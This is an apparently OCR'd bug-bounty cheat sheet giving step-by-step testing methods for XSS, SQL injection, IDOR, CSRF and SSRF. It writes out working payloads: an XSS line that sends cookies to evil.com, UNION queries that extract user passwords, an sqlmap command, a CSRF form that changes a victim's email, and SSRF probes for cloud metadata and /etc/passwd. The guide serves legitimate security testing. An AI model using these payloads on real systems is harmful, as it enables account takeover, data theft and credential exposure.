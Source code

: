 ### 1. **Cross-Site Scripting (XSS)**
   - **Overview**: Injects malicious scripts for session theft or phishing (Reflected, Stored, DOM-based).
   - **Tools**: Burp Suite, XSStrike.
   - **Steps**:
     1. Find inputs: Forms, URL params, headers.
     2. Inject: `<script>alert(1)</script>` or `javascript:alert(1)`.
     3. Check execution: Look for alerts/DOM changes.
     4. Bypass filters: Try `<scr%00ipt>`, `onerror=alert(1)`.
     5. Automate: XSStrike or Burp Scanner.
     6. Escalate: Show cookie theft (`document.location='http://evil.com?cookie='+document.cookie`).
     7. Report: Payload, steps, impact (e.g., account takeover).

### 2. **SQL Injection (SQLi)**
   - **Overview**: Exploits database queries to extract/modify data.
   - **Tools**: SQLmap, Burp Suite.
   - **Steps**:
     1. Find inputs: Forms, APIs (`?id=1`).
     2. Test errors: Inject `'` or `--`.
     3. Probe: Use `' OR 1=1--`, `' AND SLEEP(5)--`, or `' UNION SELECT 1,2,3--`.
     4. Extract: Try `' UNION SELECT username,password FROM users--`.
     5. Automate: `sqlmap -u "http://target.com/page?id=1" --dbs`.
     6. Bypass: Use encodings, case variations (`UnIoN`).
     7. Report: PoC query, sample data, impact (e.g., DB dump).

### 3. **Insecure Direct Object Reference (IDOR) / Broken Access Control**
   - **Overview**: Access unauthorized data by manipulating references.
   - **Tools**: Burp Suite (Autorize).
   - **Steps**:
     1. Spot IDs: URLs/APIs (`/user/123`, `user_id=123`).
     2. Manipulate: Change ID (123→124) with two accounts.
     3. Verify: Check for unauthorized data access.
     4. Automate: Use Autorize for privilege escalation.
     5. Escalate: Note PII exposure (GDPR).
     6. Report: Screenshots, request, impact (e.g., data leak).

### 4. **Cross-Site Request Forgery (CSRF)**
   - **Overview**: Forges user actions without consent.
   - **Tools**: Burp Suite.
   - **Steps**:
     1. Find actions: POST/GET for state changes (e.g., password update).
     2. Check tokens: Verify presence, uniqueness, validation.
     3. Craft PoC: `<form action="http://target.com/update" method="POST"><input type="hidden" name="email" value="hacker@evil.com"><input type="submit"></form>`.
     4. Test: Host PoC, trick user into clicking.
     5. Bypass: Omit/reuse tokens; test GET methods.
     6. Report: PoC code, video, fix (e.g., CSRF tokens).

### 5. **Server-Side Request Forgery (SSRF)**
   - **Overview**: Makes server send unauthorized requests to internal/external resources.
   - **Tools**: Burp Suite (Collaborator), SSRFmap.
   - **Steps**:
     1. Find entry points: `?url=`, `?file=` in APIs/webhooks.
     2. Test: Inject `http://localhost/` or `http://169.254.169.254/latest/meta-data/`.
     3. Probe: Try `http://192.168.0.1` or `file:///etc/passwd`.
     4. Blind SSRF: Use Collaborator (`http://yourcollaborator.burp/`).
     5. Bypass: Use `2130706433`, `127.0.0.1.nip.io`, or `gopher://`.
     6. Escalate: Chain to RCE or data exfil.
     7. Report: PoC URL, accessed data, impact (e.g., cloud creds).
